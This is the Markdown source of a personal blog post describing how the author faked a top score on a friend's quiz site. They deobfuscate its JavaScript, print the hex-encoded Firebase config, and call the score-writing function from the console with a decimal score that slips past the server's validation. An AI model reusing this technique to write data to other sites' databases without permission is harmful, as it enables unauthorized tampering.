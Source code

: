 ```yaml
---
title: "Hacking a Quiz Website's Highscores"
date: "2020-03-27"
draft: fale
type: post
---
```


## Backstory

Today my friend sent out a link:

{{< progressive-image class="bordered-figure" src="img/posts/quiz_highscores/IMG_1486.jpg" >}}

Unfortunately after my first attempt I only got one question right... putting me at the bottom of the highscores 😢.

{{< progressive-image class="bordered-figure short-figure" src="img/posts/quiz_highscores/highscores-before.png" >}}

This couldn't stand so I got to work.

# Getting Started!

Instead of just going back through the quiz and inputting the right answers I decided to look at how the quiz was setup.

I immediately hopped to the chrome inspector tab and checked out the sources in the page.

{{< progressive-image class="bordered-figure short-figure" src="img/posts/quiz_highscores/sources.png" >}}

The first thing to stand out to me was that under `> www.gstatic.com` a link to
`firebasejs/4.10.1` was present.

This indicated to me that all these results were likely written to a firebase database somewhere.

## Investigating Their Firebase Setup
When used properly [firebase](https://firebase.google.com/) is super secure.

But... this website also had a ton of onclick attributes set in the raw html - so it seemed likely that the creator may have made a mistake.

First I decided to investigate which firebase modules were loaded into the page.

{{< progressive-image class="bordered-figure short-figure" src="img/posts/quiz_highscores/firebase-modules.png" >}}

Cool, so it looks like they just use the [auth](https://firebase.google.com/docs/auth) module and the [Realtime Database](https://firebase.google.com/docs/database).

I did some more poking around but didn't find any other useful information.

## The page source

The page source consisted mainly of a ton of html elements used to construct the quiz, code for google analytics, facebook analytics,  bootstrap, jquery, and a few other third party libraries.

I pretty much instantly stumbled upon what I assumed to be the source code:
{{< progressive-image class="bordered-figure" src="img/posts/quiz_highscores/obfuscated.png" >}}

This looks like obfuscated source code if I've ever seen it.

# Reverse Engineering

I dumped it into a file on my desktop and formatted it with [js-beautify](https://www.npmjs.com/package/js-beautify) for further inspection.

The first few lines were like this:
```
var _0xb463 = ["\x41\x49\x7A\x61\x53\x79\x42\x74\x56\x41\x5A\x78\x67\x36\x4C\x67\x43\x31\x4B\x6E\x35\x6B\x30\x66\x6A\x31\x78\x46\x70\x64\x30\x75\x4B\x53\x36\x46\x51\x4E\x6F", "\x6E\x65\x77\x71\x7A\x69\x6E\x67\x6F\x2E\x66\x69\x72\x65\x62\x61\x73\x65\x61\x70\x70\x2E\x63\x6F\x6D", "\x68\x74\x74\x70\x73\x3A\x2F\x2F\x6E\x65\x77\x71\x7A\x69\x6E\x67\x6F\x2E\x66\x69\x72\x65\x62\x61\x73\x65\x69\x6F\x2E\x63\x6F\x6D", "\x6E\x65\x77\x71\x7A\x69\x6E\x67\x6F", "\x6E\x65\x77\x71\x7A\x69\x6E\x67\x6F\x2E\x61\x70\x70\x73\x70\x6F\x74\x2E\x63\x6F\x6D", "\x32\x35\x35\x33\x39\x32\x37\x33\x38\x31\x39\x32", "\x69\x6E\x69\x74\x69\x61\x6C\x69\x7A\x65\x41\x70\x70", "\x68\x72\x65\x66", "\x6C\x6F\x63\x61\x74\x69\x6F\x6E", "\x3F\x71\x3D", "\x69\x6E\x64\x65\x78\x4F\x66", "\x73\x75\x62\x73\x74\x72", "\x68\x69\x64\x65", "\x23\x6C\x6F\x61\x64\x69\x6E\x67\x5F\x70\x61\x67\x65", "\x23\x6E\x61\x6D\x65\x5F\x70\x61\x67\x65", "\x23\x70\x61\x67\x65\x5F\x67\x69\x76\x65\x5F\x70\x6F\x6C\x6C", "\x23\x70\x61\x67\x65\x5F\x71\x75\x65\x73\x74\x69\x6F\x6E\x65\x72", "\x73\x68\x6F\x77", "\x23\x65\x72\x72\x6F\x72\x5F\x70\x61\x67\x65", "\x70\x75\x73\x68", "\x68\x74\x74\x70\x73\x3A\x2F\x2F\x62\x75\x64\x64\x79\x6D\x65\x74\x65\x72\x2E\x63\x6F\x6D\x2F\x63\x72\x65\x61\x74\x65\x2E\x68\x74\x6D\x6C", "\x6C\x65\x6E\x67\x74\x68", "\x63\x6F\x64\x65", "\x6D\x65\x73\x73\x61\x67\x65", "\x63\x61\x74\x63\x68", "\x73\x69\x67\x6E\x49\x6E\x41\x6E\x6F\x6E\x79\x6D\x6F\x75\x73\x6C\x79", "\x61\x75\x74\x68", "\x75\x69\x64", "\x76\x61\x6C", "\x74\x68\x65\x6E", "\x76\x61\x6C\x75\x65", "\x6F\x6E\x63\x65", "\x2F\x75\x73\x65\x72\x73\x2F", "\x2F\x71\x75\x69\x7A\x65\x73\x5F\x67\x69\x76\x65\x6E\x2F", "\x2F\x73\x63\x6F\x72\x65", "\x72\x65\x66", "\x64\x61\x74\x61\x62\x61\x73\x65", "\x2F\x73\x74\x61\x74\x75\x73", "\x2F\x71\x75\x69\x7A\x5F\x63\x72\x65\x61\x74\x65\x64\x5F\x69\x64", "\x6F\x6E\x41\x75\x74\x68\x53\x74\x61\x74\x65\x43\x68\x61\x6E\x67\x65\x64", "\x2F\x71\x75\x69\x7A\x65\x73\x2F", "\x63\x68\x69\x6C\x64", "\x71\x75\x65\x73\x74\x69\x6F\x6E\x73", "\x63\x6F\x75\x6E\x74\x72\x79", "\x55\x4B", "\x6C\x61\x6E\x67\x75\x61\x67\x65", "\x45\x4E", "\x61\x6E\x73\x77\x65\x72\x65\x72\x73", "\x4E\x6F\x20\x6F\x6E\x65\x20\x68\x61\x73\x20\x67\x69\x76\x65\x6E\x20\x74\x68\x69\x73\x20\x71\x75\x69\x7A\x20\x79\x65\x74\x2E", "\x74\x65\x78\x74", "\x2E\x6E\x6F\x74\x65\x5F\x66\x6F\x72\x5F\x73\x63\x6F\x72\x65\x62\x6F\x61\x72\x64", "\x46\x52"
...
// and on, and on, and on
```

Then it opened up into some firebase initialization calls and function calls.

There was a ton of initialization logic and a ton of random other UI related logic.

I went back into the web UI to figure out what function was called on button click:

luckily... they left it in plain sight in the onclick attribute.

```html
<span class="option_text" id="option_1" onclick="option_clicked(1)">Beer</span>
```

So I went back to the source and looked for `option_clicked(1)`.

{{< progressive-image class="bordered-figure" src="img/posts/quiz_highscores/option_clicked.png" >}}

Hoorah!!  Looks like the button here sends some sort of information to firebase - I went through and started tracing the logic in the function `send_vote_to_firebase`.

```javascript
function send_vote_to_firebase(_0x932cx39, _0x932cx30) {
    var _0x932cx3a = {};
    _0x932cx3a[_0xb463[156] + userID + _0xb463[33] + pollID + _0xb463[157] + _0x932cx39] = _0x932cx30;
    var _0x932cx3b = firebase[_0xb463[36]]()[_0xb463[35]]();
    _0x932cx3b[_0xb463[127]](_0x932cx3a, function(_0x932cx14) {
      if(_0x932cx14){}
    })
}
```

This was actually a red herring that I won't discuss anymore.

Luckily, there was another function right below it - `send_score_to_firebase`.

It looked as though I had struck gold!

```javascript
function send_score_to_firebase(score) {
    var _0x932cx3a = {};
    _0x932cx3a[_0xb463[158] + pollID + _0xb463[159] + userID + _0xb463[160]] = answerer_name;
    _0x932cx3a[_0xb463[158] + pollID + _0xb463[159] + userID + _0xb463[34]] = score;
    var _0x932cx3b = firebase[_0xb463[36]]()[_0xb463[35]]();
    _0x932cx3b[_0xb463[127]](_0x932cx3a, function(_0x932cx14) {
        if (_0x932cx14) {} else {}
    })
}
```

I quickly figured out what all of this code evaluated to by extracting the indexed chunks from the mega array at the beginning - `_0xb463` - and started popping my own variable names in.

I was left with:

```javascript
function send_score_to_firebase(score) {
  nameKey = "quizes/" + pollID + "/answerers/"+ userID + "/name"
  scoreKey = "quizes/" + pollID+ "/answerers/ " + userID + "/score"
  result = {}
  result[nameKey] = "luke";
  result[scoreKey] = score;
  var database = firebase.database().ref();
  database.update(result, function(e) {
    console.log(e);
  })
}
```

I tried running this in the console and it actually didn't work due to some scoping issues - but I reverted to this:

```javascript
function send_score_to_firebase(force_name, force_score) {
    var _0x932cx3a = {};
    _0x932cx3a[_0xb463[158] + pollID + _0xb463[159] + userID + _0xb463[160]] = force_name;
    _0x932cx3a[_0xb463[158] + pollID + _0xb463[159] + userID + _0xb463[34]] = force_score;
    var _0x932cx3b = firebase[_0xb463[36]]()[_0xb463[35]]();
    _0x932cx3b[_0xb463[127]](_0x932cx3a, function(_0x932cx14) {
        if (_0x932cx14) {} else {}
    })
}
```

and it worked like a charm.

# Results

First I tried giving it numbers above the maximum possible score but I got things like:
```
⚠️ FIREBASE WARNING: update at / failed: permission_denied
```

Then I thought to myself:

Their security rules probably look something like this:

```javascript
allow write if score < 10
```

By this logic decimal numbers in javascript would pass.

so... I tried the number `9.6969696969` and it worked!
<center><img src="/img/posts/quiz_highscores/hackerman.gif"></center>

This was really exciting!  Here are the highscores now.

{{< progressive-image class="bordered-figure short-figure" src="img/posts/quiz_highscores/highscores-after.png" >}}
